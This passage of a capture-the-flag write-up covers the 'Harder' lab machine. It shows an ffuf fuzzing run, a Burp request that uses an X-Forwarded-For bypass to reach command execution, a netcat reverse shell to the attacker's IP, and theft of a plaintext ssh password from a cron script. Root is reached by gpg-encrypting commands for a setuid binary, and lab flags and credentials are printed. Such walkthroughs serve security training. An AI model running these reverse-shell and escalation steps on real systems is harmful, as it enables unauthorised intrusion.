  -H "Content-Type: application/x-www-form-urlencoded" \                                                                                                                                                                                                                                                                   
  --data 'action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm&FUZZ=1' \                                                                                                                                                                                                                                        
  -c \                                                                                                                                                                                                                                                                                                                     
  -v -fw 13                                                                                                                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                           
        /'___\  /'___\           /'___\                                                                                                                                                                                                                                                                                    
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                                                                                                                                    
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                      
                                                                                                                                                                                             
       v2.1.0-dev                                                                                                                                                                            
________________________________________________                                                                                                                                             
                                                                                                                                                                                             
 :: Method           : POST                                                                                                                                                                  
 :: URL              : http://shell.harder.local/index.php                                                                                                                                   
 :: Wordlist         : FUZZ: /home/agonen/thm/Harder/ip_headers.txt                                                                                                                          
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8                                                                                               
 :: Header           : Connection: keep-alive                                                                                                                                                
 :: Header           : Referer: http://shell.harder.local/                                                                                                                                   
 :: Header           : Upgrade-Insecure-Requests: 1                                                                                                                                          
 :: Header           : Accept-Language: en-US,en;q=0.5                                                                                                                                       
 :: Header           : Priority: u=0, i                                                                                                                                                      
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0                                                                                    
 :: Header           : Content-Type: application/x-www-form-urlencoded                                                                                                                       
 :: Header           : FUZZ: 10.10.10.10                                                                                                                                                     
 :: Header           : Cookie: PHPSESSID=hpcigl1f9j7btj2m8ergaj3b91                                                                                                                          
 :: Data             : action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm&FUZZ=1                                                                                                
 :: Follow redirects : false                                                                                                                                                                 
 :: Calibration      : false                                                                                                                                                                 
 :: Timeout          : 10                                                                                                                                                                    
 :: Threads          : 40                                                                                                                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                  
 :: Filter           : Response words: 13                                                                                                                    
________________________________________________                                                                                                             
                                                                                                                                                             
[Status: 200, Size: 1348, Words: 373, Lines: 62, Duration: 537ms]                                                                                            
| URL | http://shell.harder.local/index.php                                                   
    * FUZZ: X-Forwarded-For                    

:: Progress: [76/76] :: Job [1/1] :: 127 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```



Okay, we can use the header `X-Forwarded-For`, and we got another page:



We can supply at the `cmd` post parameter the command to execute:



The full BurpSuite raw request:
```bash
POST /index.php HTTP/1.1
Host: shell.harder.local
X-Forwarded-For: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: http://shell.harder.local
Connection: keep-alive
Referer: http://shell.harder.local/
Cookie: PHPSESSID=hpcigl1f9j7btj2m8ergaj3b91
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm&cmd=id
```

Now, using this command:
```bash
nc 192.168.132.168 1337 -e /bin/s
```



and setting up listener on local machine:
```bash
nc -nlvp 1337
```

We can get the reverse shell.



I spawned shell using this command. (/bin/bash not exist    )
```bash
python3 -c 'import pty;pty.spawn("/bin/sh")'
```

and then, we can find the user flag inside `user.txt` at `/home/evs`


```bash
/home/evs $ ^[[4;13Rcat /home/evs/user.txt
cat /home/evs/user.txt
7e88bf11a579dc5ed66cc798cbe49f76
```

### Escalate to evs using password found inside /etc/periodic/15min/evs-backup.sh

I executed `linpeas`, and find the file `/etc/periodic/15min/evs-backup.sh`.



I read this filem and find the password for `evs` user.
```bash
/ $ ^[[47;5Rcat /etc/periodic/15min/evs-backup.sh
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

Okay, we can now login via `ssh` to `evs`, with these credentials:
```bash
evs:U6j1brxGqbsUA$pMuIodnb$SZB4$bw14
```



### Privilege Escalation to Root using /usr/local/bin/execute-crypted

Now, I executed linpeas again and find the file `/usr/local/bin/execute-crypted`



```bash
harder:~$ ls -la /usr/local/bin/execute-crypted
-rwsr-x---    1 root     evs          19960 Jul  6  2020 /usr/local/bin/execute-crypted
```

When I executed this file, I got this:
```bash
harder:~$ /usr/local/bin/execute-crypted
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
```



So, it wants me to encrypt with gpg key of `root@harder.local`, and then i can execute the command as root.

We can find the public key `root@harder.local` at `/var/backup/root@harder.local.pub`, again, using linpeas.


So, first we need to import the key in `/var/backup/root@harder.local.pub`:
```bash
gpg --import /var/backup/root@harder.local.pub
```
Then, create command and encrypt it:
```bash
echo -e 'id' > command
gpg --encrypt --recipient "root@harder.local" command
```
And of course, execute:
```bash
harder:~$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
uid=0(root) gid=1000(evs) groups=1000(evs)
```



Okay, now let's insert different command, and do the same process, the command will be `cat /root/root.txt`, to get the root flag:
```bash
harder:~$ echo -e 'cat /root/root.txt' > command
harder:~$ gpg --encrypt --recipient "root@harder.local" command
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
File 'command.gpg' exists. Overwrite? (y/N) y
harder:~$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7bd72672889e0756b09f0566935a6c
```

